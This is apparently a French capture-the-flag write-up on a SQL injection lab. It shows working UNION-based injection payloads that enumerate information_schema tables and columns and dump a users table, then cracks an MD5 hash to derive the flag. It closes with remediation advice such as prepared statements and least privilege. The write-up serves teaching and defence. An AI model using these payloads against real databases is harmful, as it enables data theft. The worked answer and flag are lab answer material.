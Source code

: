 
---

# Exploitation de vulnérabilité SQL pour obtenir un flag

## Description de la faille

Une vulnérabilité SQL Injection permet d'extraire des données sensibles de la base de données. En exploitant cette faille, nous avons pu découvrir une table d'intérêt, obtenir des informations sur ses colonnes, et finalement extraire et transformer des données pour obtenir le flag.

## Étapes pour découvrir la faille

### 1. Initialiser l'injection SQL pour vérifier la vulnérabilité

En essayant la condition toujours vraie `1 OR 1=1`, nous obtenons :

```sql
1 OR 1=1; --
First name: Flag
Surname : GetThe
```

### 2. Lister toutes les tables de la base de données

En utilisant une requête UNION pour lister les tables, nous trouvons :

```sql
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables; --
First name: 1
Surname : users
```

La table `users` semble intéressante, nous allons nous concentrer dessus.

### 3. Lister toutes les colonnes de la table `users`

Nous listons les colonnes de la table `users` avec les requêtes suivantes , et on cherche la table users la dedans:

```sql
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns; --
```

Les colonnes découvertes sont :

- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

### 4. Extraire les données des colonnes intéressantes

Nous allons essayer de voir ce qu'il y a dans chacune de ces colonnes. Après avoir vérifié plusieurs champs, nous trouvons des informations intéressantes dans les colonnes `Commentaire` et `countersign` :

```sql
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users; --
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

### 5. Décrypter et transformer les données pour obtenir le flag

1. **Décrypter le mot de passe** :
   - `5ff9d0165b4f92b14994e5c685cdce28` correspond à `Fortytwo` en MD5.

2. **Convertir en minuscules** :
   - `Fortytwo` devient `fortytwo`.

3. **Calculer le hash SHA-256** :
   - `fortytwo` en SHA-256 donne `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

### Conclusion

En suivant ces étapes, nous avons pu exploiter une vulnérabilité SQL Injection pour extraire des données sensibles et finalement obtenir le flag.

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Recommandations pour remédier à la vulnérabilité SQL Injection

1. **Utilisation de Requêtes Paramétrées (Préparées)**
   - **Description** : Les requêtes paramétrées permettent de séparer le code SQL des données utilisateur. Cela empêche les données utilisateur d'être interprétées comme des parties de la commande SQL.
   - **Pratique** : Configurez votre base de données et votre langage de programmation pour utiliser des requêtes préparées avec des paramètres. Cela garantit que les entrées utilisateur sont traitées uniquement comme des données, et non comme du code SQL.

2. **Utilisation des ORM (Object-Relational Mapping)**
   - **Description** : Les ORM sont des outils qui permettent de manipuler la base de données en utilisant des objets du langage de programmation plutôt que des commandes SQL directes.
   - **Pratique** : Utilisez un ORM pour gérer les interactions avec la base de données. Les ORM incluent des mécanismes pour échapper automatiquement les entrées utilisateur, réduisant ainsi le risque d'injection SQL.

3. **Validation et Échappement des Entrées Utilisateur**
   - **Description** : La validation des entrées consiste à vérifier que les données saisies par l'utilisateur sont conformes aux attentes (format, longueur, type, etc.). L'échappement consiste à transformer les caractères spéciaux en leur équivalent sécurisé.
   - **Pratique** : Mettez en place des validations rigoureuses pour toutes les entrées utilisateur à différents niveaux de votre application (frontend et backend). Utilisez des bibliothèques d'échappement adaptées à votre langage de programmation pour sécuriser les données avant de les utiliser dans des requêtes SQL.

4. **Limiter les Privilèges de la Base de Données**
   - **Description** : Restreindre les privilèges des comptes de base de données utilisés par l'application pour limiter l'impact potentiel d'une injection SQL.
   - **Pratique** : Configurez votre base de données pour que les comptes utilisés par l'application n'aient que les privilèges nécessaires (par exemple, l'accès en lecture seule pour les opérations de lecture). Utilisez des comptes distincts pour différentes parties de l'application avec des privilèges minimaux.

5. **Utilisation des Outils de Détection et de Prévention des Intrusions (IDS/IPS)**
   - **Description** : Les IDS/IPS sont des systèmes qui surveillent le trafic réseau et les activités de l'application pour détecter et prévenir les tentatives d'attaque.
   - **Pratique** : Implémentez des solutions IDS/IPS pour surveiller les requêtes SQL et détecter les modèles de comportement suspects ou les tentatives d'injection. Configurez des alertes pour être informé immédiatement en cas de détection d'une activité anormale.

6. **Tests de Sécurité et Audits Réguliers**
   - **Description** : Les tests de sécurité consistent à analyser et tester régulièrement votre application pour identifier et corriger les failles potentielles.
   - **Pratique** : Planifiez des audits de sécurité réguliers et des tests d'intrusion pour évaluer la robustesse de votre application contre les injections SQL et autres types de vulnérabilités. Utilisez des outils d'analyse statique et dynamique pour détecter les failles de sécurité dans votre code.

7. **Utilisation de Captchas**
   - **Description** : Les captchas permettent de différencier les utilisateurs humains des scripts automatisés, ce qui peut réduire le risque d'attaques automatisées.
   - **Pratique** : Intégrez des captchas dans les formulaires de votre application, en particulier ceux qui déclenchent des opérations critiques comme la connexion ou les modifications de compte.

8. **Formation et Sensibilisation des Développeurs**
   - **Description** : La sensibilisation des développeurs aux meilleures pratiques de sécurité est essentielle pour prévenir les vulnérabilités.
   - **Pratique** : Organisez des sessions de formation régulières pour les développeurs sur les meilleures pratiques de sécurité, les techniques d'évitement des injections SQL et l'utilisation correcte des outils et des bibliothèques de sécurité.

---
